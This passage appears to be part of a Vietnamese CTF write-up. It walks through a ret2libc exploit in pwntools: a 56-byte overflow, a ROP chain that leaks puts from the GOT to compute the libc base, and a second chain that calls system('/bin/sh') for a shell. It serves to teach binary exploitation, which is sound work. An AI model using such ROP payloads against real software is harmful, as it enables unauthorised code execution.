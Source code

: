 ```python
pop_rdi = 0x000000000040113a
puts_got = 0x404000
puts_plt = 0x401030
main = 0x000000000040113f
pa = b'a'*56 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sla(b'there\n\n', pa)
libc_base = u64(p.recvline(keepends=False) + b'\0\0')
print(f"{hex(libc_base) = }")
```

- Kết quả sau khi leak:

![](/assets/readme/2024-11-12-10-14-47.png)

- Tiếp đến em tính địa chỉ libc_base, hàm system và chuỗi /bin/sh nhằm mục đích chuẩn bị RCE

```python
libc_base = leak - 0x77640
system = libc_base + 0x4dab0
binsh = libc_base + 0x197e34
print(f"{hex(libc_base) = }")
print(f"{hex(system) = }")
print(f"{hex(binsh) = }")
```

- Hàm system tương tự như puts cũng sử dụng 1 tham số là rdi để hoạt đồng

```python
pa = b'a'*56 + p64(pop_rdi+1)+p64(pop_rdi) + p64(binsh) + p64(system)
sla(b'there\n\n', pa)
```

- Kết quả

![](/assets/readme/2024-11-12-10-37-44.png)
